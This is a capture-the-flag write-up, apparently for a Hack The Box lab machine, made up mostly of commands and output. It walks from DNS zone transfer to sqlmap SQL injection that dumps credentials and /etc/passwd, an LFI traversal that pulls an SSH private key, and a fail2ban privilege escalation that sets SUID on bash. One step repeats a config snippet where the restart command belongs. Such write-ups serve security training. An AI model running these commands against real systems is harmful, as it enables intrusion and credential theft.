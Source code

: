 ## Nmap 
```bash
22 - OpenSSH 7.9p1 Debian 10+deb10u2
25 - Postfix
53 - BIND "9.11.5-P4-5.1+deb10u7-Debian"
80 - nginx 1.14.2 - unconfigured boostrap
```

## DNS Enum
```bash
nslookup
> SERVER 10.10.11.166
Default server: 10.10.11.166
Address: 10.10.11.166#53
> 10.10.11.166
166.11.10.10.in-addr.arpa       name = trick.htb.
>
```
```bash
dig axfr @10.10.11.166 trick.htb

; <<>> DiG 9.18.1-1-Debian <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 32 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
 WHEN: Mon Jul 04 23:11:04 IST 2022
;; XFR size: 6 records (messages 1, bytes 231)
```

## SQLi
[http://preprod-payroll.trick.htb](http://preprod-payroll.trick.htb)  
  
The preprod portal has a login page, which is vulnerable to SQli  
  
![sqli](./sqli.png)

We now have access to the payroll portal, it might be worth testing the site for more SQLi vulns  
After trying sqlmap on various forms, the 'save deduction' form seems to be vulnerable  
  
![deductions](./deductions.png)

```bash
sqlmap -r save_deductions.req --batch --threads 10 -D payroll_db -T users --dump
```
```bash
Database: payroll_db
Table: users
[1 entry]
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name           | type | address | contact | password              | username   |
---+-----------+----------------+------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrateur | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
```

The SQli can also be leveraged to dump files that www-data has access to:  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /etc/passwd
```
```bash
grep sh$ /home/blnkn/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd
root:x:0:0:root:/root:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```

looking at the nginx virtual host config to know what the web folder names are  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /etc/nginx/sites-available/default  
```
```bash
grep 'server_name\|root' /home/blnkn/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-available_default                       
        server_name trick.htb;
        root /var/www/html;
        server_name _;
        server_name preprod-marketing.trick.htb;
        root /var/www/market;
        server_name preprod-payroll.trick.htb;
        root /var/www/payroll;
```
this uncovers a new vhost - preprod-marketing  
[http://preprod-marketing.trick.htb/index.php](http://preprod-marketing.trick.htb/index.php)  
because we now have the web folder paths we can now dump the source code  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /var/www/market/index.php  
```
```php
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
        include("/var/www/market/".str_replace("../","",$file));
}
?>
```
This points us to an LFI as the above can be evaded like this ..././..././..././  

## LFI
So we can now just dump michael's key, and get user access  
```bash
curl 'http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././home/michael/.ssh/id_rsa' -o michael.pem
```

## Fail2Ban privesc
It is imediately apparent that the privesc will be something with fail2ban  
the makers of the box are hinting us to it in a few different ways  
there is a fail2ban config file in michael's home folder 
```bash
-bash-5.0$ ls -la
total 100
drwxr-xr-x 15 michael michael  4096 Sep 17 16:33 .
drwxr-xr-x  3 root    root     4096 May 25 13:28 ..
lrwxrwxrwx  1 root    root        9 Apr 22 09:47 .bash_history -> /dev/null
-rw-r--r--  1 michael michael   220 Apr 18  2019 .bash_logout
-rw-r--r--  1 michael michael  3526 Apr 18  2019 .bashrc
drwx------  9 michael michael  4096 May 11 21:09 .cache
drwx------ 10 michael michael  4096 May 11 21:08 .config
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Desktop
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Documents
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Downloads
drwx------  3 michael michael  4096 May 11 21:08 .gnupg
-rw-------  1 michael michael  1256 May 25 13:09 .ICEauthority
-rw-r--r--  1 michael michael  1536 Sep 17 14:22 iptables-multiport.conf
drwx------  3 michael michael  4096 May 11 21:07 .local
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Music
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Pictures
-rw-r--r--  1 michael michael   807 Apr 18  2019 .profile
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Public
drwx------  2 michael michael  4096 May 24 17:25 .ssh
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Templates
-rw-r-----  1 root    michael    33 Sep 17 01:51 user.txt
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Videos
-rw-------  1 michael michael 12716 Sep 17 16:33 .viminfo
```
and he has access to restart fail2ban  
```bash
-bash-5.0$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
and also has write access in /etc/fail2ban/actions.d
```bash
-bash-5.0$ cd /etc/fail2ban/
-bash-5.0$ ls -la
total 76
drwxr-xr-x   6 root root      4096 Sep 17 16:36 .
drwxr-xr-x 126 root root     12288 Sep 17 01:51 ..
drwxrwx---   2 root security  4096 Sep 17 16:36 action.d
-rw-r--r--   1 root root      2334 Sep 17 16:36 fail2ban.conf
drwxr-xr-x   2 root root      4096 Sep 17 16:36 fail2ban.d
drwxr-xr-x   3 root root      4096 Sep 17 16:36 filter.d
-rw-r--r--   1 root root     22908 Sep 17 16:36 jail.conf
drwxr-xr-x   2 root root      4096 Sep 17 16:36 jail.d
-rw-r--r--   1 root root       645 Sep 17 16:36 paths-arch.conf
-rw-r--r--   1 root root      2827 Sep 17 16:36 paths-common.conf
-rw-r--r--   1 root root       573 Sep 17 16:36 paths-debian.conf
-rw-r--r--   1 root root       738 Sep 17 16:36 paths-opensuse.conf
```
a quick google search for "fail2ban privesc" an we know we can execute arbitrary command with this  
let's try to make a bash suid  
```bash
cp /etc/fail2ban/action.d/iptables-multiport.conf iptables-multiport.conf
```
adding the chmod suid into the actionban command  
```bash
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
            chmod +s /usr/bin/bash
```
and placing the file back in action.d  
```bash
rm -rf /etc/fail2ban/action.d/iptables-multiport.conf
cp iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
```
then restarting the daemon  
```bash
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
            chmod +s /usr/bin/bash
```
Now of course we need to trigger the ban, lets do a bruteforce attach with hydra  
```bash
hydra ssh://trick.htb -l root -P /usr/share/wordlists/rockyou.txt
```
and we're in  
```bash
ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /usr/bin/bash
bash -p
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```

